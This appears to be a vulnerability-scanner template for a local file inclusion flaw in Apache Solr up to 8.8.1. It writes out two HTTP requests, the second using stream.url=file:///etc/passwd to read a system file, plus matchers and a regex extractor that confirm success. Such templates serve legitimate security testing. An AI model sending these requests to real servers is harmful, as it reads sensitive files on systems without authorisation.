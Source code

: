 # Apache Solr \<= 8.8.1 - Local File Inclusion

## Description

- Apache Solr versions prior to and including 8.8.1 are vulnerable to local file inclusion.
- severity - high
- tags - apache,solr,lfi

## Requests

### Step - 1

```
GET /solr/admin/cores?wt=json HTTP/1.1
Host: {{Hostname}}
Accept-Language: en
Connection: close

```

### Step - 2

```
GET /solr/{{core}}/debug/dump?stream.url=file:///etc/passwd&param=ContentStream HTTP/1.1
Host: {{Hostname}}
Accept-Language: en
Connection: close

```

### Matchers

**Type - status**

- status
  1. 200

**Type - regex**

- regex
  1. root:.\*:0:0:

### Extractors

**Type - regex**

- internal - True
- name - core
- group - 1
- regex
  1. "name"\:"(.\*?)"

---